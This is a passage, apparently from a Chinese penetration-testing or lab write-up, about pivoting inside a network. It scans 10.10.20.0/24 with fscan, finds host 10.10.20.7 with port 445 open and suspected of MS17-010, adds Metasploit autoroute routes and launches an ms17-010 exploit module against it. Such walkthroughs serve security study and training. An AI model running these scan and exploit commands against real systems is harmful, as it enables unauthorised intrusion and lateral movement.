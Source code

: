   
, 发现该机器并不在域内.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4O3hOf5xkohAwznBwgTcXB1GjRGY4Ev4aEoZ19sHibjvJNHa59yMKoatg/640?wx_fmt=png&from=appmsg "")  
  
查询网络信息发现是双网卡, 利用
```
fscan
```

  
扫描一下网段: 
```
fscan64.exe -h 10.10.20.0/24 > result.txt
```

  
, 发现网段内存在新的机器
```
10.10.20.7
```

  
, 
```
445
```

  
端口是开放的, 疑似存在
```
MS17-010
```

  
漏洞.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OIQfZM1denian9sqRgy5XBXMVF0OfxpUxLMCzH1CyQpicDmcibJA2fLy9w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OazibMyBfCERdpl5cI66WBSyjWCOHfyEKksDucaK8J0Feib0u0VYKXlog/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4ODCvNPHLSnMI4edgU9cmIshyCbiajmIh3tialWUwE1gLjk8m00lEcickicw/640?wx_fmt=png&from=appmsg "")  
  
添加路由, 扫描一下
```
MS17-010
```

  
.  

```
run get_local_subnets
run autoroute -s 10.10.20.0/24
run autoroute -p

search ms17-010
use 3
set rhost 10.10.20.7
run
```
